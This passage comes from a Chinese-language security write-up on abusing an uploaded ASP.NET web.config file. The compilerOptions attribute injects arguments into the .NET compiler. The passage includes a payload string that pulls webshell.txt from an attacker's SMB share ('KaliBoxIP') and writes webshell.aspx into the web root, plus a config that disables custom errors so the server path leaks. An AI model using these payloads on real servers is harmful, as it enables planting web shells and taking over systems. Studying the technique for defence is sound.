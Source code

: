 可以将`compiler`元素的`type`属性设置为以下默认类型之一：

-   C#:\*

```plain
Microsoft.CSharp.CSharpCodeProvider,System, Version=4.0.0.0, Culture=neutral, PublicKeyToken=b77a5c561934e089
```

这使用`csc.exe`命令进行编译。

VB.NET:

```plain
Microsoft.VisualBasic.VBCodeProvider, System, Version=2.0.3600.0, Culture=neutral, PublicKeyToken=b77a5c561934e089
```

使用 vbc.exe 命令进行编译。

Jscript.NET:

```plain
Microsoft.JScript.JScriptCodeProvider, Microsoft.JScript, Version=7.0.3300.0, Culture=neutral, PublicKeyToken=b03f5f7f11d50a3a
```

这使用`jsc.exe`命令进行编译。

这些命令通常可以在`.NET`文件夹中找到。对于`.NET v4`，该文件夹将是：

```plain
C:\Windows\Microsoft.NET\Framework64\v4.0.30319\
```

上面`web.config`模板文件中的`compilerOptions`属性的值将作为参数添加到编译器命令中。这里密文可以使用空格字符提供多个参数。

如果没有为编译器命令提供选项，则`compilerOptions`属性的值将被视为要编译的编译器的文件名。

`＃`字符为终止命令，`@`字符加载另一个文件，如[本文](https://docs.microsoft.com/en-us/dotnet/csharp/language-reference/compiler-options/listed-alphabetically)中所述。

如果我们可以在编译`C＃，VB.NET或Jscript.NET`文件时找到执行命令的方法，那么可以通过编译可能来自远程共享驱动器或以前上传的静态文件的附加文件来轻松利用它。但是在对此进行研究时，我们找不到任何东西。

应该注意的是，如果`ASP.NET`页面存在于上传`web.config`文件的同一文件夹中，则在我们更改编译过程时，它们将使用我在此提供的示例进行工作。因此，如果只有一次上传`web.config`文件并且无法再次重写时，我们应该注意该文件的内容，确保`web.config`有效。

##### 2.1.1 创建 Web shell

以下字符串显示了`compilerOptions`属性，该属性可用于在`Web`目录中创建包含一些二进制数据的`Web shell`：

```plain
/resource:"\\KaliBoxIP\Public\webshell.txt" /out:"C:\appdata\wwwroot\myapp\webshell.aspx" #
```

使用上述设置浏览`web.config`文件后，将在请求的路径中创建具有`webshell.aspx`名称的二进制文件。在此处了解服务器上的应用程序路径非常重要。当显示`ASP.NET`失败的错误消息时，可以简单地通过错误来显示应用程序的路径。建议在另一个文件而不是`web.config`文件本身中创建一个错误，但是如果以后可以修改它，这里只是一个`web.config`文件，它只显示一个错误：

```plain
<?xml version="1.0" encoding="UTF-8"?>
<configuration> 
    <system.web>
        <customErrors mode="Off" />
        IDontExist!
    </system.web>
</configuration>
```
